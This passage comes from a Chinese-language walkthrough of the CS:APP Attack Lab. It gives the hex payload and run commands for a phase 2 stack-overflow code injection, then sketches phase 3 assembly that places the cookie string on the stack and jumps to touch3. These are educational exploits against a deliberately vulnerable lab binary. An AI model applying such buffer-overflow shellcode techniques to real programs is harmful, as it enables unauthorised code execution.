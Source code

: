 ![image-20220808213607260](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/Typora20220808213607.png)

![image-20220808213859401](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/Typora20220808213859.png)

可以看到栈顶地址为0x5561dc78，结合前面注入代码的是十六进制表示，最终可以得到整个输入字符串的十六进制表示：

```shell
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

执行：

```shell
hex2raw <attack2.txt >attack2raw.txt
ctarget -q -i attack2raw.txt
```

攻击成功：

![image-20220808214628387](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/Typora20220808214628.png)

### CI(phase 3)

分析touch3的代码可以发现，touch3与touch2类似，仍旧是需要将cookie作为参数传递进去，但不同之处在于，touch2的参数类型为unsigned int，因此直接传递cookie本身即可，但touch3的参数类型为char *，需要将一个地址作为参数传递，而且touch3中进行的是字符串比较，而非数字类型的比较，所以还需要将cookie转换为对应的ascii码。

目前需要做的是：

* 将cookie放进内存，这一步通过输入字符串即可将cookie放到栈上
* 将cookie的地址放进rdi，然后调用touch3
* 覆盖getbuf的返回地址

整理目前的条件：

* 栈可执行
* 栈地址固定
* 并且在刚刚的phase 2成功完成了一次代码注入

因此，最先想到的方法就是参考phase 2，注入代码操控rdi，写出注入代码：

```assembly
pushw $0x6166
pushw $0x3739
pushw $0x3962
pushw $0x3935
mov %rsp, %rdi
push $0x4018fa
ret
```

编译后反汇编查看相应指令的十六进制表示：
